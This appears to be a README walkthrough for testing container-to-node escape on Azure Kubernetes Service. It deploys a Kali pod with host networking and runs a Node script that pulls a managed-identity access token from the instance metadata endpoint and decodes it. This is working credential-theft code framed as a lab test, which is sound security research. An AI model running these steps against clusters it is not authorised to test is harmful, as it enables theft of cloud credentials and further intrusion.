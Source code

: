 # Test Container to Node escape

**Prereqs**

In Azure CLI have cluster ready and kubectl installed  (these depedencies are not explored further in this post)

```sh
NAME=aksf-$RANDOM
NAMER=RG-aks-$NAME
TAGS="svc=aksdev"

az group create -n $NAMER \
-l $LOCATION \
--tags $TAGS

az aks create -n $NAME -g $NAMER --enable-addons azure-keyvault-secrets-provider --enable-managed-identity

az aks get-credentials --resource-group $NAMER --name $NAME --admin

```

**Kali image**

- save image to spec.yaml


```yaml
apiVersion: v1
kind: Pod
metadata:
  name: kali
  labels:
    app: kali
spec:
  containers:
  - name: kali
    image: kalilinux/kali-rolling
    command:
        - "/bin/sleep"
        - "10000"
  hostNetwork: true
  dnsPolicy: Default
```

```sh
kubectl apply -f spec.yaml
kubectl exec --stdin --tty kali -- /bin/bash

```

---

# Once in KALI Shell

```sh
apt update -y;
apt install curl -y;


curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.39.0/install.sh | bash

export NVM_DIR="$([ -z "${XDG_CONFIG_HOME-}" ] && printf %s "${HOME}/.nvm" || printf %s "${XDG_CONFIG_HOME}/nvm")"
[ -s "$NVM_DIR/nvm.sh" ] && \. "$NVM_DIR/nvm.sh" # This loads nvm

nvm install 14

nvm use 14

mkdir getToken

cd getToken

echo '
{
  "name": "imds",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "keywords": [],
  "author": "",
  "license": "ISC",
  "dependencies": {
    "axios": "^0.27.2",
    "jsonwebtoken": "^8.5.1"
  }
}
' > package.json

npm install

echo '

const { default: axios } = require("axios");
const { decode } = require("jsonwebtoken");

getToken()
async function getToken () {

    let options ={
        url:"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com",
        headers:{
            metadata:true
        }
    }
    let {data} = await axios(options).catch(error => console.log(error?.response?.data || error))
    console.log(data)
    console.log(decode(data?.access_token))
}

' > getToken.js

node getToken.js

```

**Expected end result**

![](20220830101015.png)  
